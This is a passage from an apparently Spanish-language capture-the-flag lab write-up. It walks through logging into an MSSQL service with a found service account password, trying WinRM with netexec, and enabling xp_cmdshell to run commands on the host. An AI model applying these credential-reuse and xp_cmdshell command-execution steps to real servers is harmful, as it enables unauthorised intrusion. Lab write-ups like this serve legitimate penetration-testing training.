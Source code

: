 Probaremos de intentar revisar si tenemos acceso al WinRM con este nuevo usuario, sin exito tampoco.

```bash
netexec winrm 10.10.10.125 -u 'mssql-svc' -p 'corporate568' -d WORKGROUP
```

<figure><img src="../../../../../.gitbook/assets/997_vmware_joPjUQTQpM.png" alt=""><figcaption></figcaption></figure>

## MSSQL service connetion

Como esta cuenta parece ser la cuenta de servicio de MSSQL, probaremos de acceder al servicio con dichas credenciales. Comprobamos que también ganamos acceso con dicho usuario.

```bash
mssqlclient.py WORKGROUP/mssql-svc@10.10.10.125 -windows-auth 2>/dev/null
```

<figure><img src="../../../../../.gitbook/assets/998_vmware_yZ3Bb5z0VF.png" alt=""><figcaption></figcaption></figure>

### Enabling xp\_cmdshell component in MSSQL service (RCE)

Con el usuario anterior que probamos no teníamos acceso a habilitar el componente **xp\_cmdshell**, probaremos con este usuario de habilitar el componente.

Comprobamos que podemos habilitarlo y efectuar un RCE (Remote Code Execution)

```sql
SP_CONFIGURE "show advanced options", 1

RECONFIGURE

SP_CONFIGURE "xp_cmdshell", 1

RECONFIGURE

xp_cmdshell "whoami"
```
